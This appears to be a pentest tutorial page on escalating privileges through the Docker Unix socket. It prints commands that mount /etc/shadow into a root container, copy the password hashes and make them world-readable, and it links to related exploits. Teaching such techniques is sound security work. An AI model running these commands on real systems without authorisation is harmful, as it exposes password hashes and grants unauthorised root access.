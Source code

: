 # Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command (he is part of docker group). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.

Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](<../../../.gitbook/assets/image (22) (1) (1) (1).png>)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:\
\
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)\
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)\\
